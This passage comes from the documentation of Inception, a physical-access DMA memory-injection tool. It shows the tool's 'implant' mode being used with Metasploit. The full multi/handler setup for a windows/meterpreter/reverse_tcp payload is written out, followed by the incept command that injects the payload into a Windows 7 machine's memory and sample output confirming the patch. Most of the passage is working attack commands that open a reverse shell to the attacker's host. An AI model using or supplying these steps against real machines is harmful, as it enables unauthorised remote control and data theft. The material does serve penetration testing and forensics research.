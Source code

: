 Then launch inception in another terminal:

    incept implant --msfpw [password] --msfopts [options]

As an example, to create a reverse TCP meterpreter shell from the target
machine to your attacking host, first start the `msfrpcd` dameon, and then
launch a console listening for callbacks. 

    msfrpcd -P password
    msfconsole

In the console, we configure the receiving end of the payload. We're setting
the `EXITFUNC` option to `thread` to ensure that the target process stays alive
if something should go awry:

    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
    set LHOST 172.16.1.1
    set EXITFUNC thread
    set ExitOnSession false
    exploit -j

Then, in another terminal, we launch Inception:

    incept implant --msfpw password --msfopts LHOST=172.16.1.1

     _|  _|      _|    _|_|_|  _|_|_|_|  _|_|_|    _|_|_|  _|    _|_|    _|      _|
     _|  _|_|    _|  _|        _|        _|    _|    _|    _|  _|    _|  _|_|    _|
     _|  _|  _|  _|  _|        _|_|_|    _|_|_|      _|    _|  _|    _|  _|  _|  _|
     _|  _|    _|_|  _|        _|        _|          _|    _|  _|    _|  _|    _|_|
     _|  _|      _|    _|_|_|  _|_|_|_|  _|          _|    _|    _|_|    _|      _|

    v.0.4.0 (C) Carsten Maartmann-Moe 2014
    Download: http://breaknenter.org/projects/inception | Twitter: @breaknenter

    [?] Will potentially write to file. OK? [y/N] y
    [!] This module currently only work as a proof-of-concept against Windows 7 SP1
        x86. No other OSes, versions or architectures are supported, nor is there
        any guarantee that they will be supported in the future.
    [?] What MSF payload do you want to use? windows/meterpreter/reverse_tcp
    [*] Selected options:
    [*] LPORT: 4444
    [*] LHOST: 172.16.1.1
    [*] EXITFUNC: thread
    [*] Stage 1: Searcing for injection point
    [================================>                             ]  537 MiB ( 53%)
    [*] Signature found at 0x219d118c in page no. 137681
    [*] Patching at 0x219d118c
    [\] Waiting to ensure stage 1 execution
    [*] Restoring memory at initial injection point
    [*] Stage 2: Searching for page allocated in stage 1
    [=========================>                                    ]  434 MiB ( 42%)
    [*] Signature found at 0x1b2d9000 in page no. 111321
    [*] Patching at 0x1b2d9000
    [*] Patch verified; successful
    [*] BRRRRRRRAAAAAWWWWRWRRRMRMRMMRMRMMMMM!!!


[1]: http://inception.davepedu.com
[2]: https://wikileaks.org/spyfiles/files/0/293_GAMMA-201110-FinFireWire.pdf
[3]: http://freddie.witherden.org/tools/libforensic1394/
[4]: http://mxcl.github.io/homebrew/
[5]: http://www.breaknenter.org/projects/inception/
[6]: http://support.apple.com/en-us/HT202348
[7]: http://www.microsoft.com/en-us/download/details.aspx?id=41671
[8]: https://www.youtube.com/watch?v=0FoVmBOdbhg
[9]: http://www.w3schools.com/browsers/browsers_os.asp